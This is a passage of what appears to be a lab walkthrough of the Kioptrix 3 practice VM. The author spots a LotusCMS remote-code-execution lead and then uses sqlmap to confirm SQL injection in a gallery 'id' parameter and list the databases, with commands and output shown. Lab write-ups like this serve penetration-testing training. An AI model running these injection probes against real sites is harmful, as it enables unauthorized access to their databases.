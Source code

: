 Only two ports discovered, http and ssh. I decided to start exploring the website. Clicking on the Login tab sends us to a login form that appears to be running LotucCMS. A quick check on Google reveals that this may be vulnerable to a remote code execution exploit: [http://www.exploit-db.com/exploits/15964/](http://www.exploit-db.com/exploits/15964/)

The website also promotes their new gallery, so I started poking around in it. Clicking on the Ligoat Press Room displays a page that has a form at the bottom, which allows us to sort the images:

->![](/images/2012-07-16/03.png)<-

Playing around with this form causes the URL to change around a bit:

```
http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos
```

Suspecting that the id parameter might be injectable, I decide to try a SQL injection attack using sqlmap. Assuming that the backend database is running MySQL:

```
# ./sqlmap.py -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos" --dbms=MySQL
.
.
.
.
[22:53:35] [INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 10 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
```

My assumption paid off, the id parameter is injectable. I can re-run sqlmap with more specific probes now. I start off by identifying the databases:

```
# ./sqlmap.py -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos" --dbms=MySQL --dbs
.
.
.
[22:55:39] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL 5.0
[22:55:39] [INFO] fetching database names
[22:55:39] [INFO] the SQL query used returns 3 entries
[22:55:39] [INFO] retrieved: "information_schema"
[22:55:39] [INFO] retrieved: "gallery"
[22:55:39] [INFO] retrieved: "mysql"
available databases [3]:                                                       
[*] gallery
[*] information_schema
[*] mysql
```
